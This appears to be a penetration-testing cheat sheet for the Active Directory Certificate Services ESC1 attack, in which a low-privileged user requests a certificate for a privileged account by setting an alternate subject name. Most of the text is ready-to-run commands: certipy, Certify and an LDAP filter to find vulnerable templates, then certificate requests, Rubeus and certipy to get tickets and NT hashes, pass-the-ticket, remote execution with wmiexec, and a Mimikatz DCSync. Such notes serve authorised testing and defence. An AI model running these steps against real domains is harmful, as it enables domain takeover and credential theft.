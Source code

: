 # ESC1—Alternate Subject (SAN) on Client-Auth Template

## Theory

> [!summary] Overview
> If a certificate template allows requesters to supply the subject and specify a *subjectAltName* (SAN), and low-privileged users can enroll, an attacker can request a certificate for any user (e.g., a privileged account) by placing that user’s UPN in the SAN. The issued certificate can then be used for authentication (PKINIT) to obtain a TGT and/or the NT hash.

## Requirements (all Must Be true)

- Low-privileged principals have **Enroll** on the template.
- **Requires Manager Approval** is **False**.
- **Authorized Signatures Required** is **0**.
- Template EKUs allow authentication (e.g., **Client Authentication** / `1.3.6.1.5.5.7.3.2` or `1.3.6.1.4.1.311.20.2.2` for Smart Card Logon).
- **Enrollee supplies subject** (`ENROLLEE_SUPPLIES_SUBJECT`) is set.
- CA permits **UserSpecifiedSAN** (enrollees can set SAN).

### Placeholders

`<DOMAIN>` `<USER>` `<PASS>` `<DC_IP>` `<CA_FQDN>` `<CA_NAME>` `<TEMPLATE_NAME>` `<ALT_UPN>` `<ALT_SAM>` `<FOREST_DN>` (e.g., `DC=corp,DC=local`) `<TARGET_HOST_FQDN>` `<PFX_FILE>`

---

## Linux

### Enumerate

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
```

Look for:

- `Enrollee Supplies Subject : True`
- `Client Authentication : True` (or EKU listing)
- `Requires Manager Approval : False`
- `Authorized Signatures Required : 0`
- Enrollment includes low-priv group (e.g., Domain Users)

### Exploit (Request Cert with Alternate SAN)

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> \
  -ca '<CA_NAME>' -template '<TEMPLATE_NAME>' -upn '<ALT_UPN>'
# Output: saves '<alt>.pfx' (set your own filename as needed)
```

### Authenticate (get TGT and NT hash)

```bash
certipy auth -pfx <PFX_FILE> -username '<ALT_SAM>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# Outputs <ALT_SAM>.ccache and attempts to retrieve NT hash
```

### Use TGT (Kerberos Auth to target)

```bash
KRB5CCNAME=<ALT_SAM>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
# or psexec.py / smbexec.py with -k -no-pass
```

Note: Ensure `<TARGET_HOST_FQDN>` resolves (DNS or `/etc/hosts`).

---

## Windows

### Enumerate (Certify)

```powershell
.\Certify.exe find /vulnerable
# Check CA: 'UserSpecifiedSAN' and templates with ENROLLEE_SUPPLIES_SUBJECT, client auth EKU, no manager approval, 0 signatures, enrollable by low-priv.
```

### Enumerate (LDAP Filter for ESC1-like templates)

```powershell
Get-ADObject -LDAPFilter `
'(&(objectclass=pkicertificatetemplate)
  (!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))
  (|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))
  (|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)
    (pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)
    (pkiextendedkeyusage=1.3.6.1.5.2.3.4))
  (mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' `
-SearchBase "CN=Configuration,<FOREST_DN>"
```

### Exploit (Request Cert with Alternate SAN)

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<ALT_UPN> > cert.pem
```

### Convert to PFX (Windows OpenSSL or Linux)

```powershell
# Windows (path may vary) — set/leave export password as desired
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 `
  -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" `
  -export -out cert.pfx
```

### Authenticate and Extract Creds (Rubeus)

```powershell
.\Rubeus.exe asktgt /user:<ALT_SAM> /certificate:cert.pfx /getcredentials /nowrap
# Returns base64 TGT (kirbi) and NTLM if available
```

### Use Ticket (Pass-the-Ticket)

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
# In the shown PowerShell session:
.\Rubeus.exe ptt /ticket:<BASE64_TGT_HERE>
```

### Example Post-exploitation

```powershell
# With TGT loaded, perform privileged actions, e.g., DCSync:
# (Use your preferred tooling/workflow)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\<ALT_SAM>"'
```

**Notes**

- `<CA_NAME>` for `certipy req` is the CA common name (as shown by `certipy find`). For `Certify.exe request`, use `<CA_FQDN>\<CA_NAME>`.
- Ensure time sync and domain resolution.
